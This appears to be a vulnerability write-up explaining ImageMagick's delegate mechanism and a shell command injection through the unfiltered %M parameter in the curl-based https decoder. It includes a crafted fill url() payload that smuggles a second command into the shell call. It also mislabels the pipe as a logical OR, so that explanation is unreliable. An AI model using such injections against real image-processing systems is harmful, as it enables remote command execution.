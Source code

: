 * **Translators**: Commands which specify `decode="in_format" encode="out_format"`, set the rules for converting from `in_format` to `out_format`. These rules may be used to translate directly between formats.
* **Decoders**: Commands which specify only `decode="in_format"` specify the rules for converting from `in_format` to some format that ImageMagick will automatically recognise. These rules are used to decode formats.
* **Encoders**: Commands which specify only `encode="out_format"` specify the rules for an "encoder" which may accept any input format.

Delegates is implemented using the `system()` call, which defers its work by shelling out to some other program passing in the necessary arguments. In fact the an XML configuration file called `delegates.xml` is used to provide the mapping of the delegate to the specific shell command that relates to accomplishing the task of the delegate.

Some examples from `delegates.xml`:

A decoder for PowerPoint Presentations (`ppt`):

    <delegate decode="pptx" command="&quot;soffice&quot; --headless --convert-to pdf --outdir `dirname &quot;%i&quot;` &quot;%i&quot; 2&gt; &quot;%Z&quot;; mv 
&quot;%i.pdf&quot; &quot;%o&quot;"/>

An encoder that can format to an `mpeg` using `ffmpeg`:

      <delegate encode="mpeg:encode" stealth="True" command="&quot;ffmpeg&quot; -nostdin -v -1 -i &quot;%M%%d.jpg&quot; &quot;%u.%m&quot; 2&gt; &quot;%Z&quot;"/>


A decoder that can resolve image data from an `https` source:

    root@kali:~/Downloads/ImageMagick-6.9.2-10# cat config/delegates.xml | grep https
      <delegate decode="https" command="&quot;curl&quot; -s -k -L -o &quot;%o&quot; &quot;https:%M&quot;"/>


Unpacking the `https` decoder a little further, XML un-escaping the command attribute (i.e. `&quot;` symnbols etc) get this:

    "curl" -s -k -L -o "%o" "https:%M"

If this buffer could be manipulated to run subsequently commands, like this following for example:

    "curl" -s -k -L -o "%o" "https://127.0.0.0/spl017.jpg"|ls "-la"

The shell will see this as two commands, separated by a logical OR `|`, which means it will basically evaluate the first expression, if that fails, will move on to the second expression (in this case the `ls -la`).

With `%M` being the actual image hyperlink location from the URI from the `fill` command. To get the buffer to set as above, could set the `fill` command with a url source as follows (note the careful use of double quotes, to ensure the commands on the shell correctly line up):

    fill 'url(https://127.0.0.0/spl017.jpg"|ls "-la)'


ImageMagick allows to process files with external libraries. This feature is called *delegate*. It is implemented as a `system()` with command string ('command') from the config file `delegates.xml` with actual value for different params (input/output filenames etc). Due to insufficient `%M` param filtering it is possible to conduct shell command injection.
